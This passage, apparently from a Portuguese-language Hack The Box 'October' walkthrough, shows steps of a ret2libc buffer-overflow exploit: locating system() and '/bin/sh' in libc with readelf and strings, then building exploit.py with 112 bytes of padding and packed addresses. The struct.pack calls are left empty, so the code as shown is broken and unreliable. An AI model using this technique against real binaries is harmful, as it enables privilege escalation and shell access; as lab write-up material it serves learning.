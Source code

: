 #### Verificação system libc

Verificamos a posição do system na libc dessa máquina

`readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-october/O_system.png)

Adicionamos no exploit

exploit.py
```
import struct

libc_base_addr = 0xb759e000
system_off = 0x00040310


system_addr = struct.pack("<I",)
exit_addr = struct.pack("<I",)
arg_addr = struct.pack("<I",)

buf = "A" * 112
buf += system_addr
buf += exit_addr
buf += arg_addr
```

#### Procuramos o endereço na libc dessa máquina equivalente a /bin/sh

O comando é:

`strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-october/O_binsh.png)

Adicionamos ao exploit

exploit.py
```
import struct

libc_base_addr = 0xb759e000
system_off = 0x00040310
arg_sh = 0x00162bac
exit_add = 0x42424242

system_addr = struct.pack("<I",)
exit_addr = struct.pack("<I",)
arg_addr = struct.pack("<I",)

buf = "A" * 112
buf += system_addr
buf += exit_addr
buf += arg_addr
```

